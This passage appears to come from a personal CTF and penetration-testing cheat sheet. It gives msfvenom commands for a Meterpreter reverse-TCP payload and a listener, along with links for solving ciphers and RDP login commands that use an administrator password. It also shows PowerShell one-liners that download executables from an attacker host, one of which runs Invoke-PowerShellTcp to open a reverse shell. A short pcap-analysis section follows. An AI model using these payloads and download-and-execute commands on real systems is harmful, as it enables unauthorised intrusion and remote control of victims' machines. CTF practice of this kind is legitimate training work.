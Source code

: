 **Dump meterpreter directly on target**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=5555 -f exe -o reverse.exe # dump payload on target
use exploit/multi/handler # listener module
set PAYLOAD windows/meterpreter/reverse_tcp
exploit -j
```

<h3 class="border-bottom mb-3 mt-5" id="cypher-solving">cypher solving</h3>

CTF's like to include cyphers, they are fun to do once, but you encounter them too often in CTF's. Lukily I found these resources to be able to solve almost anything.

```
https://www.cachesleuth.com/multidecoder/
https://book.hacktricks.xyz/crypto-and-stego/crypto-ctfs-tricks
https://gchq.github.io/CyberChef/       # check the auto solver
https://www.guballa.de/vigenere-solver  # vignere solver (use if cypher looks like it can be solved by ROT but can't and requires a key)
https://www.aperisolve.com/             # runs a bunch of steganography tools on images
```


<h3 class="border-bottom mb-3 mt-5" id="connect-to-windows-with-remote-desktop-protocol">Connect to windows with remote desktop protocol</h3>

Good linux rdp tool

```
xfreerdp /u:administrator /p:letmein123! /v:10.10.226.16:3389 /tls-seclevel:1
wlfreerdp /u:administrator /p:letmein123! /v:10.10.226.16:3389 /tls-seclevel:1
```

<h3 class="border-bottom mb-3 mt-5" id="curl-on-windows">curl on windows</h3>

```
Invoke-WebRequest -uri http://10.10.10.10/socat.exe -outfile C:\\Windows\temp\socat.exe
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.57/reverse.exe','\Windows\Temp\reverse3.exe')
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.10.57:8000/reverse.exe','reverse.exe')"
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.10.20/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -10.10.10.20 your-ip -Port 4444
```

<h3 class="border-bottom mb-3 mt-5" id="pcap-analysis">pcap analysis</h3>
                        
Also something that CTF's like to do. They give you captured packet files which you have to analyse and obtain credentials from. 
Sometimes tedious to do. tcpick formats those files very well.

```
tcpick -C -yP -r mypcap.pcapng | less -r
tcpick -wR -r mypcapfile  # creates files from tcp stream
```

<h3 class="border-bottom mb-3 mt-5" id="linux-privilege-escalation">Linux privilege escalation</h3>
